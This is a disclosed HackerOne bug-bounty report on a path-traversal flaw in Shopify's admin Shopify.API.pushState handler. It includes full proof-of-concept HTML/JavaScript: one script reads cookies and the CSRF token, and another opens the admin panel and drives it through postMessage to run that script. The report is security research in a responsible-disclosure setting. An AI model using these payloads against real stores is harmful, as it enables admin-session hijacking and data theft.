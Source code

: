 # Inject page in admin panel via Shopify.API.pushState

## Report Details
- **Report ID**: 662083
- **URL**: https://hackerone.com/reports/662083
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-27T23:17:32.559Z
- **Disclosed**: 2019-09-09T16:40:43.129Z

## Reporter
- **Username**: tiago-danin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
# Summary
`Shopify.API.pushState` call the method `handleRoutePushEvent`, allows you to change routes to open pages from admin panel:
```js
handleRoutePushEvent({pathname: e, search: t, state: a, hash: o}) {
                const {adminPath: n, history: i} = this.props // `adminPath` = `/admin`
                  , s = "".concat(n).concat(e);
                // *** //
}
```
If we use the prefix `..` in `pathname` It will removes `admin` (`/admin/../pages/xss` ~> `/pages/xss`). You can load pages from outside the admin panel. The `document.getElementById("AppFrameMain")` will be modified with an insecure page.

## Step to Reproduce
1. Create an page with the XSS (title: xss, path: /pages/xss):
{F540958}
```html
<script>
alert("XSS By Tiago")
console.log("Document:", document)
console.log("Window:", window)
console.log("Cookies:", document.cookie)
console.log("Location:", window.location)
console.log("CSRF Token:", document.querySelectorAll('[data-serialized-id="csrf"]')[0].innerText)
</script>
```

2. Create another page with our triggered XSS (title: xss play, path: /pages/xss-play):
{F540963}
```html
<script>
    function attack(){
        const ctx = window.open(location.origin+'/admin/themes', '_blank')
        const data = JSON.stringify({
            message: 'Shopify.API.pushState',
            data: {pathname: "/../pages/xss"}
        });

        let interval;
        interval = setInterval(function(){
            if (window.attackSuccess) {
                clearInterval(interval)
            } else {
                ctx.postMessage(data)
            }
        }, 500)
    }
    attack()
</script>
<a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```

3. Open the page https://[YOU_STORE].myshopify.com/pages/xss-play
4. Admin panel has been opened and script executed:
{F540964}

Tested with Google Chrome - Version 76.0.3788.1 (Official Build) dev (64-bit)

## Impact

Abuse the active admin session to extract data as:
- CSRF token.
- Store config.

## Attachments
- DeepinScreenshot_google-chrome-unstable_20190727194202.png
- DeepinScreenshot_google-chrome-unstable_20190727194507.png
- DeepinScreenshot_google-chrome-unstable_20190727195220.png
